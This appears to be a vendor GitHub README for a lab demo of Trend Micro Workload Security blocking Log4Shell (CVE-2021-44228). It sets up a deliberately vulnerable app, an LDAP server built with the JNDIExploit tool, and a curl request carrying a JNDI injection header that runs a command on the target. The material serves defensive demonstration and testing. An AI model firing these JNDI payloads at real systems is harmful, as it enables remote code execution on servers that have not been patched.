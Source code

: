 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://console.aws.amazon.com/cloudformation/home#/stacks/new?stackName=c1-ws-log4shell&templateURL=https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

---

## After CloudFormation Template Deployment

## 1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
![deployment_script](images/deploymentscript.png)

## 2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242** or **1008610**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.

![Click here for additional coverage on Apache Log4j "Log4Shell" Remote Code Execution 0-Day Vulnerability (CVE-2021-44228)](https://success.trendmicro.com/solution/000289940)
    
![ips_rule](images/ipsrule.png)
    
![detect_only](images/detectonly.png)

---

## 3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

---

## 4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

## 5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

---

## 6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```
![shell-c](images/shell-c.png)

---

## Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.
Trend Micro Success: https://success.trendmicro.com/solution/000289940
This web-based tool can help identify server applications that may be affected by the Log4Shell: https://log4j-tester.trendmicro.com/

